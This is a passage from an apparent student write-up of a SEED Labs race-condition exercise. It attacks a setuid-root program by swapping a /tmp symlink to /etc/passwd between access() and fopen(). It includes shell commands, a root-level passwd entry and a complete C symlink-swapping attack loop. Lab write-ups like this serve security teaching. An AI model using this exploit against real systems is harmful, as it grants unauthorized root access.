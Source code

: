 As we can see from above, we have the root privilege when logged in as `test`; after we delete the entry from the password file, we cannot log into the `test` account any more.

## Task 2: Launching the Race Condition Attack

### Task 2.A: Simulating a Slow Machine

Modify our `vulp` program by adding a `sleep(10)` between the `access()` and `fopen()` function calls.

```bash
[November 29 2021] seed@xingjian:~/Documents/RaceCondition$ cp vulp.c vulp_cheat.c              
[November 29 2021] seed@xingjian:~/Documents/RaceCondition$ nano vulp_cheat.c
[November 29 2021] seed@xingjian:~/Documents/RaceCondition$ gcc vulp_cheat.c -o vulp
[November 29 2021] seed@xingjian:~/Documents/RaceCondition$ sudo chown root vulp
[November 29 2021] seed@xingjian:~/Documents/RaceCondition$ sudo chmod 4755 vulp
```

First create the temporary file and then run the program:

```bash
[November 29 2021] seed@xingjian:~/Documents/RaceCondition$ touch /tmp/XYZ
[November 29 2021] seed@xingjian:~/Documents/RaceCondition$ ./vulp
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```

As the program is running, open another terminal window, and type:

```bash
# -f (if the link exists, remove the old one first)
$ ln -sf /etc/passwd /tmp/XYZ
```

Then, we can check if the entry have been successfully added to the password file:

```bash
[November 29 2021] seed@xingjian:~/Documents/RaceCondition$ sudo cat /etc/passwd
...

test:U6aMy0wojraho:0:0:test:/root:/bin/bash[November 29 2021] seed@xingjian:~/Documents/RaceCondition$ 
```

### Task 2.B: The Real Attack

Before launching this real attack, make sure that the `sleep()` statement is removed from the `vulp` program.

In the simulated attack, we used the `ln -s` command to make/change symbolic links. Now we need to do it in a program:

```c
/* The attack program */
#include <unistd.h>

int main()
{
    char* fn = "/tmp/XYZ";
    char* pw = "/etc/passwd";

    while (1) {
        unlink(fn);
        symlink(pw, fn);
        usleep(100);
    }

    return 0;
}
```
